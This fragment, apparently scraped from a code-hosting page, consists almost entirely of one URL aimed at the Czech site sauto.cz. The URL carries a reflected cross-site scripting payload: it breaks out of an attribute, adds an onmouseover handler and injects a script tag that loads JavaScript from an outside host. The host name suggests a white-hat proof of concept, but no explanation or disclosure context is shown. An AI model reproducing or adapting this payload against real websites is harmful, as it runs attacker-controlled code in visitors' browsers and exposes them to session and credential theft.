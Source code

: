 https://www.sauto.cz/bannerova-reklama?perPage=1&banner=1&clickthru=/%22onmouseover=%22let%20s%20=%20document.createElement(%27script%27);%20s.setAttribute(%27src%27,%27https://whitehat-email-cz.vercel.app//index.js%27);%20document.head.appendChild(s)
